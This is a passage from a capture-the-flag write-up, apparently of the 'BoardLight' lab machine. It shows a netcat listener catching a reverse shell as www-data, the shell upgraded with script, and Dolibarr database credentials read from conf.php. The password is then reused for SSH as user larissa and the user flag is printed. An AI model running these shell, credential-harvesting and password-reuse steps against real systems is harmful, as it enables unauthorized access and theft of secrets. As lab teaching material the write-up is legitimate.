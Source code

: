 ```
kali # nc -lnvp 9000
listening on [any] 9000
connect to [10.10.14.52] from (UNKNOWN) [10.10.11.11] 33966

$ whoami
www-data

$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$

```

We now have an interactive shell as **`www-data`**. To get a more stable shell use **`script`**

> [!INFORMATION]
> 
The **`script`** command in Linux is used to create a typescript of everything that occurs in a terminal session. This command below starts a new shell session using a script , which creates a new interactive Bash shell. The output is directed to `/dev/null` , effectively discarding it, while still allowing us to interact with the shell

### 6. User and Password Discovery
*After enumerating the system, we find credentials in the file `/var/www/html/crm.board.htb/htdocs/conf/conf.php`:* 

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf/$ catconf.php
[...]
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
[...]
```

*Next, we check the **`/etc/passwd`** file and find a user named **`larissa`**:*

```
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd
[...]
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
[...]
```

*We attempt SSH login using the discovered credentials **`larissa:serverfun2$2023!!`**:*

```
kali # ssh larissa@board.htb
larissa@board.htb's password: 
Last login: Wed Jan  8 15:32:42 2025 from 10.10.14.52

larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)

larissa@boardlight:~$ cat user.txt
747cece2f9f6c160f59c6f485b3e1f13
```
## Privilege Escalation
